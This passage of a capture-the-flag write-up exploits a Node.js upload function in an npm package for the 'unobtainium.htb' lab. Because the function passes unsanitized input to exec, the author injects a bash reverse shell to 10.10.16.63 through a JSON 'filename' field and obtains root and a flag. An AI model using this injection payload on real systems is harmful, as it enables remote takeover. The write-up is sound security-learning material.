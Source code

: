 Now we can upload files !! <br>

I searched google for the function definition and did not found it, then i installed it with npm and displayed it as follow
```bash
cmd: npm install google-cloudstorage-commands
cmd: node
node$: const g = require("google-cloudstorage-commands")
node$: console.log(g.upload.toString()) 

function upload(inputDirectory, bucket, force = false) {
    return new Promise((yes, no) => {
        let _path = path.resolve(inputDirectory)
        let _rn = force ? '-r' : '-Rn'
        let _cmd = exec(`gsutil -m cp ${_rn} -a public-read ${_path} ${bucket}`)
        _cmd.on('exit', (code) => {
            yes()
        })
    })
}
``` 

We can clearily see that it **exec's** the command in the command line and is vulnerable to command hijack because **${bucket}** is not sanitized neither before nor inside the function <br>

In this case, we can control it with the **filename** value
```js
root.upload("./",filename, true);
```

And we send the following request
```bash
POST /upload HTTP/1.1
Host: unobtainium.htb:31337

--- snip ---

{"auth": {"name": "felamos", "password": "Winter2021"},"filename":"$(/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.63/1414 0>&1')"}
```

And Voila!! 
```bash
cmd: whoami && id && uname -a

uid=0(root) gid=0(root) groups=0(root)
Linux webapp-deployment-5d764566f4-mbprj 5.4.0-70-generic #78-Ubuntu SMP Fri Mar 19 13:29:52 UTC 2021 x86_64 GNU/Linux

cmd: ls -la ~
-rw-r--r-- 2 root root   33 May  6 21:32 user.txt

cmd: cat ~/user.txt
# FLAG: f8bd148eb3f2191b87502dff9db76e6c
``` 
